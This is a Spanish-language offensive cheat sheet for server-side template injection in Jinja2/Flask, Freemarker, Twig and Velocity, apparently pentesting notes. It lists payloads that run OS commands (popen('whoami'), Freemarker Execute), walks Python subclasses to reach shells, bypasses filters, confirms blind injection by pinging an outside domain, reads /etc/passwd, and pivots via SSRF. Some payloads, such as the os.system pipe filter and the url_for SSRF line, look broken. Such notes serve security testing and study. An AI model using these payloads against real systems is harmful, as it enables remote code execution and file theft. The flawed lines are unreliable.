 -- - 

**Siempre que vemos que esta corriendo python de fondo, flask o werkzeug hay que probar el siguiente payload:**
```flask
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read() }} --> payload usado para ejecutar comandos.
```
#### **Payload Crafting**

- **Jinja2**: 
  - **Acceder a objetos de Python si el sandbox es débil**:
    ```jinja2
    {{''.__class__.__mro__[1].__subclasses__()[X]}}
    ```
    - Reemplaza `X` con un índice (por ejemplo, `135` para `os._wrap_close`) para generar shells.

- **Freemarker**: 
  - **Invocar utilidades de Java**:
    ```freemarker
    <#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}
    ```
  
---
#### **Bypass Tactics**

- **¿Sandboxed?** 
  - Busca configuraciones incorrectas o versiones antiguas (por ejemplo, **Jinja2 < 2.10** tenía bypasses).
- **¿Filtros activos?**
  - Utiliza cadenas con pipes:
    ```jinja2
    {{'id'|os.system}}
    ```
  
---
#### **Explotación Avanzada**

- **Blind SSTI (sin salida visible)**:
  - Genera retrasos o pings para confirmar la ejecución:
    ```jinja2
    {{().__class__.__bases__[0].__subclasses__()[X]('ping -c 10 yourdomain.com')}}
    ```

- **Inclusión de Archivos (File Inclusion)**:
  - Leer archivos secretos:
    ```freemarker
    <#include "/etc/passwd">
    ```

- **SSRF Chaining (Encadenamiento de SSRF)**:
  - Pivote interno:
    ```jinja2
    {{url_for('http://internal.service')}}
    ```
  
---

| Template Engine | Test Payload        | Success Indicator |
| --------------- | ------------------- | ----------------- |
| Jinja2          | {{7*7}}             | 49 in response    |
| Freemarker      | <#assign x=7*7>${x} | 49 in response    |
| Twig            | {{7*7}}             | 49 in response    |
| Velocity        | #set($x=7*7)$x      | 49 in response    |

### Resources
https://github.com/swisskyrepo/PayloadsAllTheThings
**tplmap:** Scans for SSTI across engines:
